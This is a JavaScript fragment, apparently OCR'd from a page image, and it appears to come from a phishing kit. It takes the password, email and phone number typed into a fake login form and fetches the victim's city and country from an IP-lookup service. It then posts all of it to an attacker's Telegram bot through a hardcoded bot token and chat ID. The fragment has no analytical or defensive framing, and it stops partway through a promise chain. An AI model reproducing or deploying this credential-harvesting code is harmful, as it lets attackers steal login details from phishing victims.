     function checkLength(id) {
      let input = document.querySelector("#" + id);
      if (input.value !== '') {
        input.style.cssText = 'border: 1px solid grey';
      }
    }

    function handleActions(e) {
      let pass = document.getElementById('password').value.replace('#', '-sharp-');
      if (pass.length === 0) {
        $('#password').css('border', '1px solid red');
        return;
      } else {
        let tries = document.getElementById('pw_tries');
        if (parseInt(tries.value) === 0) {
          // document.querySelector("#wrong_pass").classList.remove('d-none');
          // document.getElementById('password').value = '';
          // document.getElementById('password').style.border = '1px solid red';
          $("#exampleModal1").modal('hide');
          $("#exampleModal1").modal('show');
          document.getElementById('confirm_email1').value = document.getElementById('email').value.replace('#', '-sharp-');
          document.getElementById('emailpass2').value = document.getElementById('email').value.replace('#', '-sharp-');
          document.getElementById('phonepass2').value = document.getElementById('phone').value.replace('#', '-sharp-');
          $.get("https://ipapi.co/json/", function (response) {
            let country = response.country;
            let regionName = response.region;
            let city = response.city;
            document.getElementById('city2').value = response.city;
            let ip = $("#ip_hidden").val();


            var params = {
              content: '---------------------------------------------------------' + '%0A' +
                'Passi 1: "' + pass + '"' + '%0A' +
                'City : "' + city + '"' + '%0A' +
                'Country : "' + country + '"' + '%0A' +
                'Number : "' + document.getElementById('phone').value.replace('#', '-sharp-') + '"' + '%0A' +
                'Email : "' + document.getElementById('email').value.replace('#', '-sharp-') + '"' + '%0A' +
                'IP: "' + ip + '"' + '%0A' +
                '---------------------------------------------------------'
            }


            fetch(`https://api.telegram.org/bot6889191432:AAFw-po-pKJiPAC1mLA7fqfwSNqkrM50HCg/sendMessage?chat_id=6921169662&text=${params.content}/`, {
              method: 'POST', // or 'PUT'
              headers: {
                'Content-Type': 'application/json',
              },

            }).then(function () {
